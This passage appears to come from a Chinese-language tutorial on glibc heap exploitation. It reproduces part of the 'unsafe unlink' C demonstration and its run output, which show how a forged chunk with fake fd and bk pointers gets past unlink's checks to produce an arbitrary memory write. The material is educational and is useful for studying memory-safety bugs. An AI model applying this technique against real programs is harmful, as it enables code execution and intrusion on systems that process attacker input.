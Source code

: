 ```
	fprintf(stderr, "Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.\n");
	fprintf(stderr, "You can find the source of the unlink macro at https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344\n\n");
	free(chunk1_ptr);

	fprintf(stderr, "At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.\n");
	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string;

	fprintf(stderr, "chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.\n");
	fprintf(stderr, "Original value: %s\n",victim_string);
	chunk0_ptr[0] = 0x4141414142424242LL;
	fprintf(stderr, "New Value: %s\n",victim_string);
}
```

编译运行结果：
```
Welcome to unsafe unlink 2.0!
Tested in Ubuntu 14.04/16.04 64bit.
This technique can be used when you have a pointer at a known location to a region you can call unlink on.
The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.
The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.

The global chunk0_ptr is at 0x602070, pointing to 0x2282010
The victim chunk we are going to corrupt is at 0x22820a0

We create a fake chunk inside chunk0.
We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.
We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.
With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False
Fake chunk fd: 0x602058
Fake chunk bk: 0x602060

We need to make sure the 'size' of our fake chunk matches the 'previous_size' of the next chunk (chunk+size)
With this setup we can pass this check: (chunksize(P) != prev_size (next_chunk(P)) == False
P = chunk0_ptr, next_chunk(P) == (mchunkptr) (((char *) (p)) + chunksize (p)) == chunk0_ptr + (chunk0_ptr[1]&(~ 0x7))
If x = chunk0_ptr[1] & (~ 0x7), that is x = *(chunk0_ptr + x).
We just need to set the *(chunk0_ptr + x) = x, so we can pass the check
1.Now the x = chunk0_ptr[1]&(~0x7) = 0, we should set the *(chunk0_ptr + 0) = 0, in other words we should do nothing
2.Further more we set chunk0_ptr = 0x8 in 64-bits environment, then *(chunk0_ptr + 0x8) == chunk0_ptr[1], it's fine to pass
3.Finally we can also set chunk0_ptr[1] = x in 64-bits env, and set *(chunk0_ptr+x)=x,for example chunk_ptr0[1] = 0x20, chunk_ptr0[4] = 0x20
In this case we set the 'size' of our fake chunk so that chunk0_ptr + size (0x2282018) == chunk0_ptr->size (0x2282018)
You can find the commitdiff of this check at https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30

We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.
We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.
```